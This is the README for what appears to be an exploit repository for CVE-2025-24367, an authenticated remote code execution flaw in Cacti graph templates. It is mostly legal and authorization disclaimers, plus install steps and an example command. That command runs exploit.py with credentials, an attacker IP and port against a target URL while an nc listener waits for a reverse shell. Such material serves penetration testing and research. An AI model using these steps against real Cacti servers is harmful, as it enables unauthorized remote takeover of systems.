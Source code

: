 # CVE-2025-24367 - Cacti Authenticated Graph Template RCE
# Usage & Safety

> **Important — Read this first:**  
> This repository and `exploit.py` are provided **for educational and research purposes only**. Do **not** use this code against systems, networks, or services for which you do not have **explicit, written authorization**. Unauthorized access to computer systems is illegal and unethical. By using this code you agree to follow applicable laws and institutional policies.

---

## Requirements

- Python 3.8+

```bash
python3 -m venv venv
source venv/bin/activate
pip install requests beautifulsoup4
```

---

## Usage

```text
python3 exploit.py -u <username> -p <password> -i <attacker_ip> -l <listener_port> -url <target_url> [--proxy]
```

### Example

Before running the script make sure you have a nc listener running. Run the script without proxy unless debugging:

```bash
python3 exploit.py \
  -u testuser \
  -p Welcome1 \
  -i 192.168.43.11 \
  -l 4444 \
  -url http://localhost
```

---

## VERY IMPORTANT WARNINGS

- **Do not run this against production systems or any system you do not own or have explicit permission to test.**
- Always obtain **written authorization** before performing security testing.
- Use isolated lab environments (e.g., VMs, containers, or purpose-built test networks) for experimentation.
- Your organization may have reporting and disclosure policies — follow them.
- The authors accept no responsibility for misuse of this code.

**Final reminder:** This script and README are for **educational use only**. Never use these tools to access systems unlawfully.
